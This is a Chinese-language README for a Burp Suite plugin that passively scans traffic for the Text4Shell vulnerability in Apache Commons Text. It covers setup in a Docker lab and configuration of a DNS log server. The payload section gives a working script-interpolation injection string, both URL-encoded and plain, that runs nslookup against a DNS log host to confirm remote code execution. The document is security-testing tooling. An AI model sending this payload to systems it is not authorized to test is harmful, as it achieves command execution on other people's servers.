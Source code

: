 # BurpText4ShellScan

---

使用java编写的Text4shell burp被动扫描插件

# 简介

---

java maven项目，可以使用`mvn package`进行编译

# 更新

---

```
1.0 - 首次上传，对所有经过burp的包进行被动扫描，扫描对象包括了json、xml、fileupload
1.1 - 修复了body为空时导致的检测错误，修复了对URL参数不检测的错误
```

# payload

---

```
- "%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nslookup+dns-url%27%29%7D"
- "${script:javascript:java.lang.Runtime.getRuntime().exec('nslookup dns-url')}"
```

可以在`resources/config.yml`修改

# 使用

---

### 0x01 搭建环境

使用github中的[https://github.com/karthikuj/cve-2022-42889-text4shell-docker](https://github.com/karthikuj/cve-2022-42889-text4shell-docker)搭建环境

![image-20221217013031381](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013031381.png)



### 0x02 插件

代理访问`http://yourip:80/text4shell/attack?search=aaa`，开始扫描

在logger中可看见插件发送的包

![image-20221217013353536](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013353536.png)

仅对是否可以dnslog进行扫描，若dnslog接受到请求，则爆出漏洞

![image-20221217013651624](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013651624.png)

![image-20221217013717306](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013717306.png)

### 0x03 配置

在`resources/config.yml`中的`dnsLogModule`修改dnslog配置，使用时可以修改为自搭建的DnsLog服务器

![image-20221217014026078](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217014026078.png)



# 参考

---

[https://github.com/pmiaowu/BurpFastJsonScan](https://github.com/pmiaowu/BurpFastJsonScan)

[https://github.com/f0ng/log4j2burpscanner](https://github.com/f0ng/log4j2burpscanner)

# 免责声明

---

该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。